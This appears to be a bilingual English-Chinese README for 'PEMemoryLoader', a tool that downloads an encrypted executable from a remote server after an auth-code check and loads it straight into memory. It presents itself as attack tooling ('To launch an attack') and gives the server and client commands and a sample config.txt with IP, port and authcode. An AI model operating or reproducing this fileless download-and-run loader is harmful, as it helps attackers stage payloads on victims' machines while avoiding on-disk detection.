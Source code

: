 # PEMemoryLoader

Load static-compiled PE from remote server.

## Principle Introduction

To launch an attack, you should run the RemoteServer first. The RemoteServer is used to provide Encrypted PE after requested (Of course client need to pass authorization before downloading the PE).

Before run the PELoader,You should filling the server's information in config.txt (IP 、port、auth-password).

在开始实施攻击前，你需要先运行RemoteServer。这个服务器用来向客户端PELoader提供被加密的PE文件，PELoader想要获取到这个PE文件是需要匹配authcode进行鉴权的。

做好RemoteServer的准备工作后，可以在PELoader所在的目录下创建config.txt并填入RemoteServer的IP、端口、密码等信息。之后运行PELoader即可。

## Compile

Compile the project with visual studio.

使用vs进行编译即可。

## Usage

### server

```shell
.\RemoteServer.exe [port] [PEPath] [authcode]
```

### client

编辑config.txt

```text
ip = 192.168.1.123
port = 37261
authcode = 654123
```

之后运行PELoader

```shell
.\PELoader.exe
```



